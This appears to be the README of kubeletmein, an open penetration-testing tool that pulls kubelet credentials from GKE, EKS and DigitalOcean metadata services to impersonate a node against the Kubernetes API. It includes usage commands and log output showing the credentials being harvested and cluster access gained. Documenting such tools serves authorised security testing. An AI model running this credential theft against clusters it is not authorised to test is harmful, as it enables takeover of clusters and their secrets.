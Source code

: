 # Kubeletmein

This is a simple penetration testing tool which takes advantage of public cloud provider approaches to providing kubelet credentials to nodes in a Kubernetes cluster in order to gain privileged access to the k8s API. This access can then potentially be used to further compromise the applications running in the cluster or, in many cases, access secrets that facilitate complete control of Kubernetes.

## How it works

`kubeletmein` is a simple Go binary that is designed to be run from a pod inside your target cluster. Typically this will be either via exploiting a weakness in a web application running on Kubernetes or, perhaps an internal penetration test where the client has given you exec access into a pod.

It reads kubelet credentials from the cloud provider metadata and configures a kubeconfig file that you can use with `kubectl` to access the API.

There's more info in our blog post at [https://www.4armed.com/blog/hacking-kubelet-on-gke/](https://www.4armed.com/blog/hacking-kubelet-on-gke/).

## Supported providers

### GKE

GKE is fully supported and relies on the metadata concealmeant being disabled.

### EKS

EKS support initially added by @airman604 based on the AWS EKS [bootstrap script](https://github.com/awslabs/amazon-eks-ami/blob/master/files/bootstrap.sh). This has now been expanded to provide support for various different types of user-data encountered with EKS. Specifically it will support cloud-config format and shell script formats. In the latter case it tries to parse the command line arguments for `/etc/eks/bootstrap.sh` and retrieve the values it needs from there.

### Digital Ocean

By default, DO provides creds by metadata and this cannot be disabled.

### AKS

I should probably look at Azure at some point but....Microsoft. ;-)


## Installation

It's a single binary compiled for Linux. Download it with `cURL` or `wget` from the releases page at [https://github.com/4armed/kubeletmein/releases](https://github.com/4armed/kubeletmein/releases).

## How to

A breaking change in v0.14.0 and upwards is a further consolidation of the command line arguments. There is now just a single `generate` command which will try to autodetect the cloud provider by default. You can override this with the `--provider` flag if required.

### GKE

```
root@kubeletmein-vulnerable:/# kubeletmein generate
2021-03-04T22:25:52Z [ℹ]  fetching kubelet creds from metadata service
2021-03-04T22:25:52Z [ℹ]  writing ca cert to: ca-certificates.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet cert to: kubelet.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet key to: kubelet.key
2021-03-04T22:25:52Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  wrote bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  using bootstrap-config to request new cert for node: kubeletmein-node
2021-03-04T22:25:53Z [ℹ]  got new cert and wrote kubeconfig
2021-03-04T22:25:53Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get pods
NAME                     READY   STATUS    RESTARTS   AGE
kubeletmein-vulnerable   1/1     Running   0          12m
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get nodes
NAME                                                  STATUS   ROLES    AGE   VERSION
gke-kubeletmein-kubeletmein-vulnerabl-6623dbee-mgkd   Ready    <none>   11m   v1.18.12-gke.1210
```

Now you can use the kubeconfig, as it suggests.

```
kubectl --kubeconfig kubeconfig get pods
```

### EKS

On EKS we can impersonate current node in a single step using IAM authentication.

```
~ $ kubeletmein generate
2021-03-02T21:37:59Z [ℹ]  running autodetect
2021-03-02T21:37:59Z [ℹ]  EKS detected
2021-03-02T21:37:59Z [ℹ]  fetching cluster information from user-data from the metadata service
2021-03-02T21:37:59Z [ℹ]  getting IMDSv2 token
2021-03-02T21:37:59Z [ℹ]  getting user-data
2021-03-02T21:37:59Z [ℹ]  generating EKS node kubeconfig file at: kubeconfig
2021-03-02T21:37:59Z [ℹ]  wrote kubeconfig
2021-03-02T21:37:59Z [ℹ]  then try: kubectl --kubeconfig kubeconfig get pods
```

Now you can use the kubeconfig, as it suggests. Follow the instructions at
https://docs.aws.amazon.com/eks/latest/userguide/install-aws-iam-authenticator.html to download `aws-iam-authenticator`
(and make it executable), then run:

```
kubectl --kubeconfig kubeconfig get pods
```

### DigitalOcean

```
root@kubeletmein-vulnerable:/# kubeletmein generate
2021-03-04T23:39:46Z [ℹ]  running autodetect
2021-03-04T23:39:46Z [ℹ]  DigitalOcean detected
2021-03-04T23:39:46Z [ℹ]  fetching kubelet creds from metadata service
2021-03-04T23:39:46Z [ℹ]  writing ca cert to: ca-certificates.crt
2021-03-04T23:39:46Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2021-03-04T23:39:46Z [ℹ]  wrote bootstrap-kubeconfig
2021-03-04T23:39:46Z [ℹ]  using bootstrap-config to request new cert for node: kubeletmein-node
2021-03-04T23:39:46Z [ℹ]  got new cert and wrote kubeconfig
2021-03-04T23:39:46Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get pods
NAME                     READY   STATUS    RESTARTS   AGE
kubeletmein-vulnerable   1/1     Running   0          6m12s
```

## Testing

### Terraform

To simplify the process, if you want to fire up some clusters to test this on, there are example Terraform configurations provided in the `deploy/terraform` directory. There is one per cloud provider supported. You will need to provide credentials for the provider. If you're not sure how to do this head over to the Terraform website and checkout the relevant provider docs.

- AWS - [https://registry.terraform.io/providers/hashicorp/aws/latest/docs](https://registry.terraform.io/providers/hashicorp/aws/latest/docs)

- GCP - [https://registry.terraform.io/providers/hashicorp/google/latest/docs](https://registry.terraform.io/providers/hashicorp/google/latest/docs)

- Digital Ocean - [https://registry.terraform.io/providers/digitalocean/digitalocean/latest/docs](https://registry.terraform.io/providers/digitalocean/digitalocean/latest/docs)

Each folder has a `Makefile` you can use if you wish to init, plan and apply the configs. You can update the `terraform.tfvars` with the necessary changes or set `TF_VAR_xx` variables. However you prefer.

The plans will create a cluster and then deploy the `4armed/kubeletmein` container image in a pod. You can then exec into this pod and run the tool. Here is output from running this on GKE.

```bash
$ kubectl exec -ti kubeletmein-vulnerable bash
root@kubeletmein-vulnerable:/# kubeletmein generate
2021-03-04T22:25:52Z [ℹ]  running autodetect
2021-03-04T22:25:52Z [ℹ]  GKE detected
2021-03-04T22:25:52Z [ℹ]  fetching kubelet creds from metadata service
2021-03-04T22:25:52Z [ℹ]  writing ca cert to: ca-certificates.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet cert to: kubelet.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet key to: kubelet.key
2021-03-04T22:25:52Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  wrote bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  using bootstrap-config to request new cert for node: kubeletmein-node
2021-03-04T22:25:53Z [ℹ]  got new cert and wrote kubeconfig
2021-03-04T22:25:53Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get pods
NAME                     READY   STATUS    RESTARTS   AGE
kubeletmein-vulnerable   1/1     Running   0          12m
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get nodes
NAME                                                  STATUS   ROLES    AGE   VERSION
gke-kubeletmein-kubeletmein-vulnerabl-6623dbee-mgkd   Ready    <none>   11m   v1.18.12-gke.1210
```

## Contributing

Please submit pull requests on a separate branch. We welcome all improvements. It's not the world's best bit of code.

Please raise issues on GitHub if you find any, including feature requests.

## Disclaimer

This is intended for professional security testing or research. We subscribe to the DBAD philosophy.
